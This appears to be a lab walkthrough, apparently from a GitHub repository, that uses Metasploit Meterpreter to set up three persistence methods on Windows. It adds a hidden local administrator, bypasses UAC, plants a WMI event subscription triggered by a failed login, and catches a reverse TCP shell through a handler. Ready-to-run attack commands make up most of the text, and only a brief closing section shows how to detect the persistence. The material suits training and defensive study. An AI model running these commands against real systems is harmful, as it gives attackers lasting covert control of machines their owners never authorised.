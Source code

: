 #### Deploying three persistence methods using Metasploit Meterpreter

#### Establish Meterpreter C2
###### Launching a script called `psexec.rc` using Metasploit
```
msfconsole -q -r labs/quick/psexec.rc
```

#### Persistence 1 - Add a Local Administrative User
###### The 'execute' function accepts the command to run with the '-f' argument interactively with '-i' argument.
```
execute -if whoami
execute -if 'net user /add assetmgt Password1'
execute -if 'net localgroup administrator /add assetmgt'
execute -if 'net user'
execute -if 'net localgroup administrators'
```

#### Persistence 2 - WMI Event Subscription
###### The WMI event subscription persistence technique must be used with a user process that has bypassed UAC permissions. To accommodate this migrate to explorer.exe 
```
migrate -N explorer.exe
```
###### In order to apply the WMI event subscription persistence method, an attacker needs to bypass the User Access Control (UAC) prompt.
```
background
use exploit/windows/local/bypassuac_injection
set lhost ip
set session 1
run
bg
```

```
use exploit/windows/local/wmi_persistence
set session 2
set lhost ip 
set username_trigger mssqladmin
run
reboot Windows
```

#### Establish Callback Handler
###### For reverse TCP meterpreter session, the attacker must be listening and waiting for the connection
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost ip
run
```

#### Trigger the WMI Event Subscription Persistence
###### The persistence mechanism waits for a user to attempt to login using the username 'mssqladmin' with an incorrect password
```
smbclient //ip/C$ -U mssqladmin%badpass
```

#### Local User Analyis
###### Some options to detect these persistence methods
```
net user
```
###### What if we didn't know which users were valid? We can look for recently created user accounts, which can be found by interrogating the Security event log for Event ID 4720
```
Get-WinEvent -FilterHashtable @{ Logname='Security'; ID=4720} | fl - property timecreated, message
Get-WMIObject -Namespace root\Subscription -Class __EventFilter | fl -property *
```
###### To find the process of the event
```
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer | fl -property *
```

